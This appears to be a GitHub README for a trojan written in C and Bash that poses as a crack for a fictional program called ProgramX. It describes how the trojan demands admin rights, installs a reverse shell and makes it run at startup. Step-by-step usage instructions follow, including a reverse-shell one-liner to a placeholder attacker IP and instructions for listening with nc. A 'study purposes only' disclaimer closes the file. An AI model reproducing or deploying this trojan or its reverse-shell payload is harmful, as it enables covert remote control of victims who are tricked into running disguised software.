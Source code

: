 # Trojan - Cracking Software
Basic trojan with command and control functionatilies for ubuntu based systems. This trojan was created for study porpuses only.

It emulates a scenario of a binarie that patches/cracks a ficticional legit software called ProgramX but inside has a malware. 
When the user download it, If he try to run it without admin privileges, it will not run and ask to be run again with admin privileges.
After being executed, the binarie will do it's legimitate work of patching/cracking ProgramX but will also install a reverse shell on the user's system.
The binare will create a shell script that runs the reverse shell and then add the first script as a service to be run at system startup. 

It was coded in C and Bash Scripting.

## How to use:

1 - Change the attacker IP Address and Port to connect in the source code (line 52).

```
bash -i >& /dev/tcp/attackerip/porttoconnect 0>&1 2>&1
```
2 - Compile code

3 - Download/Send the binarie to the target machine

4 - Give Read/Write/Execution permissions to the file

```
chmod +rwx programxpatch
```

5 - Open and listen to the port in your host (attacker host) using ncat or nc

6 - Run

![image](https://github.com/Smarttfoxx/softwarecracktrojan/assets/140526026/87100563-10fd-4327-bb0e-d1f37985f41f)

![Sem título](https://github.com/Smarttfoxx/softwarecracktrojan/assets/140526026/450d909f-1a69-4cf5-b82f-986c16c4a45a)


# DISCLAIMER

This binarie was created for study only porpuses, it was not and shouldn't be used against any third party without permission.
I am not responsible for any illegal ou bad use of the binarie.
